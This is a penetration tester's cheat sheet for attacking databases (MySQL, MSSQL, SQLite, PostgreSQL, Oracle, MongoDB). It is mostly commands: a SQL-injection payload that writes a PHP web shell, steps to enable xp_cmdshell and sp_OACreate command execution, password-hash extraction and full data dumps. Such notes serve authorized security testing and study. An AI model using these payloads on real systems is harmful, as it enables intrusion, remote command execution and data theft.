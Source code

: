```yaml
---
layout: blank
pagetitle: Database Attacks
---
```


## General Database viewer tools
- Use `dbeaver` on kali, has a nice GUI and everything

## MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
- Dumping MySQL: `mysqldump -h [host] -u [user] -p[password] --all-databases > mysql_all_dbs.sql`


## MSSQL
- Database management built into Windows	
- Controlled via `Invoke-Sqlcmd`
  - `Install-Module -Name SqlServer -Force`
  - `Invoke-Sqlcmd -ServerInstance localhost\{SQL_server_name} -Database {database_like_master} -Query {query}`
- Importing [PowerUPSQL](https://github.com/NetSPI/PowerUpSQL) can give some useful Powershell commands, like `Get-SQLInstanceLocal` to identify local mssql servers
  - Cheatsheet: [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
  - `Get-SQLServerPasswordHash` gets SQL server login passwords
  - Inspecting linked servers: `Get-SQLServerLink` 
    	- With auth: `-Username {mssql_username} -Password {mssql_password}  -Instance {server_name} -Verbose`
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
	- `trustlink`, `sp_linkedservers`, and `use_link` for linked servers
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema
- Can also use `sp_OACreate` to execute system commands
	`EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT; EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c {command}';`
- Linked servers can execute remote queries
  - `SELECT * FROM OPENQUERY( {linked_server_name}, '{query}')`
- Dumping MSSQL (table names): `Invoke-Sqlcmd -ServerInstance [server] -Username [user] -Password [password] -Query "SELECT name FROM master.sys.databases" | Format-Table -AutoSize > mssql_dbs.txt`

## SQLite
- Use `sqlitebrowser` for viewing sqlite databases
- Can't execute functions, but can load malicious files
	- `SELECT load_extension('/tmp/malicious.so');`
- `SQLite CLI` allows command execution with `.shell {command}` or `.system {command}`
- Outdated versions may have RCE CVEs

## PostgreSQL
- Use `psql` for to connect to PostgreSQL databases
- Command execution with `COPY mytable TO PROGRAM 'whoami';`
	- Requires superuser
- Command execution with `SELECT pg_execute_server_program('id');`
	- This won't require superuser, but will require `pg_execute_server_program`
- Dumping PostgreSQL: `pg_dump -h [host] -U [username] -F c -b -v -f postgresql_all.dump postgres`

## Oracle
- Comand execution with `EXEC dbms_java.runjava('java.lang.Runtime.getRuntime().exec("{command}")');`
- Dumping Oracle: `sqlplus [username]/[password]@[host]/[SID] @extract.sql > oracle_data.txt`

## MongoDB
- Dumping MongoDB: `mongodump --host [host] --port [port] --username [user] --password [password] --out ./mongodb_dump`
